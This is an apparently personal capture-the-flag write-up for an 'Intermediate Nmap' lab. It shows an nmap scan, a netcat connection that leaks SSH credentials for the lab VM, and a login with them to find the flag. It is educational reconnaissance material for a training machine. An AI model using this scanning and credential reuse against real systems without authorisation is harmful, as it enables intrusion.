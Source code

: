 <h1 align="center">Challenge 042 - Intermediate Nmap </h1>
<div align="center">
  <img src="https://github.com/user-attachments/assets/1de8ff3b-ae68-430a-b185-1e7316866470" width="90" height="90" />
</div>
<br>
<p align="center"> <b>Difficulty</b>: 1/10 (Very Easy) <b>Completed</b>: ✔️ 13.10.2025  </p>

This CTF is supposed to be an easy riddle, which expects us to combine our nmap skills with other commands like netcat to login to a machine and find the flag. Furthermore we are also given the hint that this VM 10.10.111.86 is listening on a high port and might reveal some information we can use to connect to a lower port commonly used for remote access.

Honestly this can't even be called a hint anymore. It's clear as day that we need to set up a netcat listener, while we run the nmap command. This will probably reveal some information to us.

So we start by scanning the ports first with nmap to reveal some information.

```
root@ip-10-10-112-225:~# nmap -p- -sV -A 10.10.111.86
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-13 16:58 BST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.10.111.86
Host is up (0.00027s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
2222/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     In case I forget - user:pass
|_    ubuntu:Dafdas!!/str0ng
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.80%I=7%D=10/13%Time=68ED219A%P=x86_64-pc-linux-gnu%r(
SF:NULL,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/s
SF:tr0ng\n\n")%r(GetRequest,35,"In\x20case\x20I\x20forget\x20-\x20user:pas
SF:s\nubuntu:Dafdas!!/str0ng\n\n")%r(SIPOptions,35,"In\x20case\x20I\x20for
SF:get\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(GenericLines,35,"
SF:In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n
SF:")%r(HTTPOptions,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubunt
SF:u:Dafdas!!/str0ng\n\n")%r(RTSPRequest,35,"In\x20case\x20I\x20forget\x20
SF:-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(RPCCheck,35,"In\x20case\
SF:x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(DNSVer
SF:sionBindReqTCP,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:
SF:Dafdas!!/str0ng\n\n")%r(DNSStatusRequestTCP,35,"In\x20case\x20I\x20forg
SF:et\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(Help,35,"In\x20cas
SF:e\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(SSLS
SF:essionReq,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafda
SF:s!!/str0ng\n\n")%r(TerminalServerCookie,35,"In\x20case\x20I\x20forget\x
SF:20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(TLSSessionReq,35,"In\x
SF:20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r
SF:(Kerberos,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafda
SF:s!!/str0ng\n\n")%r(SMBProgNeg,35,"In\x20case\x20I\x20forget\x20-\x20use
SF:r:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(X11Probe,35,"In\x20case\x20I\x20
SF:forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(FourOhFourRequ
SF:est,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/st
SF:r0ng\n\n")%r(LPDString,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\
SF:nubuntu:Dafdas!!/str0ng\n\n")%r(LDAPSearchReq,35,"In\x20case\x20I\x20fo
SF:rget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n")%r(LDAPBindReq,35,"
SF:In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n
SF:")%r(LANDesk-RC,35,"In\x20case\x20I\x20forget\x20-\x20user:pass\nubuntu
SF::Dafdas!!/str0ng\n\n")%r(TerminalServer,35,"In\x20case\x20I\x20forget\x
SF:20-\x20user:pass\nubuntu:Dafdas!!/str0ng\n\n");
MAC Address: 02:56:E8:A5:12:59 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=42626%PV=Y%DS=1%DC=D%G=Y%M=0256E8%
OS:TM=68ED21A6%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=
OS:I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%
OS:O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W
OS:6=FE88)ECN(R=Y%DF=Y%T=3F%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 10.10.111.86

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.28 seconds
```

Well... that's awkward. I wanted to set up the netcat listener to retrieve some information, but this command already reveals way more than I expected. Let me just set up the listener to see what the output would be there.

```
root@ip-10-10-112-225:~# nc 10.10.111.86 31337
In case I forget - user:pass
ubuntu:Dafdas!!/str0ng
```

After establishing a connection to the service running on port 31337 of the target machine (10.10.111.86) we get valuable information. This port was likely configured to listen for incoming connections, and when we connected, the service responded, providing us with the output that may contain valuable information such as prompts, messages or in this case even credentials. The lesson in this task was to scan ports and identify open ones, indicating that a service is actively listening for connections, returning output after using the netcat command.

Now with these credentials we can try to login to ssh as per usual.

```
root@ip-10-10-112-225:~# ssh ubuntu@10.10.111.86
The authenticity of host '10.10.111.86 (10.10.111.86)' can't be established.
ECDSA key fingerprint is SHA256:tD+Aiagv/4teueystsEl6q9ZNvNF9C8v+dsZj3fhbdQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.111.86' (ECDSA) to the list of known hosts.
ubuntu@10.10.111.86's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.13.0-1014-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
ubuntu
```

While looking for the flag, we can see another user exists in the home directory.

```
$ ls -la
total 20
drwxr-xr-x 1 root   root   4096 Mar  2  2022 .
drwxr-xr-x 1 root   root   4096 Mar  2  2022 ..
drwxr-xr-x 1 ubuntu ubuntu 4096 Oct 13 16:16 ubuntu
drwxr-xr-x 2 root   root   4096 Mar  2  2022 user
```

At first I thought we wouldn't be able to access the root directory as we were logged in as an 'ubuntu' user, but the permissions *drwxr-xr-x* indicate that the directory is owned by the 'root* user, but it has read and execute permissions for others. This means that any user, including us, can traverse the directory and list its content, but cannot modify or delete anything inside it.

- d indicates it's a directory.
- rwx means the owner (root) has read, write, and execute permissions.
- r-x means the group (root) has read and execute permissions, but not write permissions.
- r-x means others have read and execute permissions as well.

<img width="449" height="193" alt="Bildschirmfoto vom 2025-10-13 18-23-04" src="https://github.com/user-attachments/assets/334fd04f-2dd6-4144-a9c7-1f0e67525225" />

And we are done. It's an interesting task, but if you already know the right commands for nmap, you might not even be in need of using the netcat listener. It's still good practice to get acquainted with strategies like this and I hope we get other opportunities to make use of netcat again.

